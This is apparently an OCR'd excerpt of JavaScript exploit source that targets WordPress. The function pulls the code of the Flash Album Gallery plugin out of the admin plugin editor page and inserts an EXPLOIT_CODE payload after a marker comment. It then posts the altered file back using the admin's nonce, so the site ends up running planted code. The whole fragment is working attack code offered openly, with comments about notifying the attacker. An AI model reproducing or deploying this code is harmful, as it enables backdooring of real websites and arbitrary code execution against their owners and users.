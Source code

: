     /* Modify the plugin with malicous code with plugin editor */
    function modify_plugin(responseText, nonce) {
        // Get the plugin code
        // On each wordpress plugin edit site, there's just one textarea tag.
        // The plugin code itself lies between the textarea tags.
        // These regexes aren't really good.
        var startIndex = responseText.match(/<textarea.*?name="newcontent".*?>/);
        var stopIndex = responseText.match(/<\/textarea>/);
        pluginCode = responseText.substring(startIndex.index+startIndex[0].length, stopIndex.index);

        // add our exploit code at the beginning of the plugin after the "// Stop direct call" comment.
        if (/((\/){2}\sStop\sdirect\scall)/.test(pluginCode)) {
            pluginCode = pluginCode.replace(/((\/){2}\sStop\sdirect\scall)/, "$1" + EXPLOIT_CODE);
        } else {
            // Let's go for the first line after the obligatory wp plugin comment and lets use the closing comment
            // characters */ as needle as a fallback.
            pluginCode = pluginCode.replace(/^(\*\/)/m, "$1" + "\n" + EXPLOIT_CODE);
        }

        // We need to consider that the plugin code in this state is making use of Character entity references
        // for all html meta characters like " ' < > & \ to avoid them of being interepreted as markup.
        // We need to replace them with their "real" characters, before we send the plugin as post data.
        pluginCode = removeCharEntityReferences(pluginCode);

        // Ready to build our POST request
        preq = getXMLHttpRequestObject();
        preq.onload = function () {
            if (preq.readyState == 4 && preq.status == 200) {
                var successPattern = /File\sedited\ssuccessfully./;
                if (successPattern.test(preq.responseText))
                    alert("Done.");
                    // Notify the attacker that the exploit has been spawned.
                else
                    alert("Nope.");
            }
        };
        preq.open("POST", PLUGIN_EDITOR_URL, true);
        preq.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");

        pd = {
            _wpnonce: nonce,
            _wp_http_referer: PLUGIN_EDIT_URL + "&a=te&scrollto=0",
            a: "",
            scrollto: "192",
            newcontent: encodeURIComponent(pluginCode),
            action: "update",
            file: "flash-album-gallery/flag.php",
            plugin: "flash-album-gallery/flag.php",
            submit: "Update+File"
        };
        // Build the post data.
        postdata = "";
        for (var key in pd) {
            postdata += (key + "=" + pd[key] + "&");
        }
        postdata = postdata.substr(0, postdata.length-1); // rstrip the last &
        preq.send(postdata);
    }
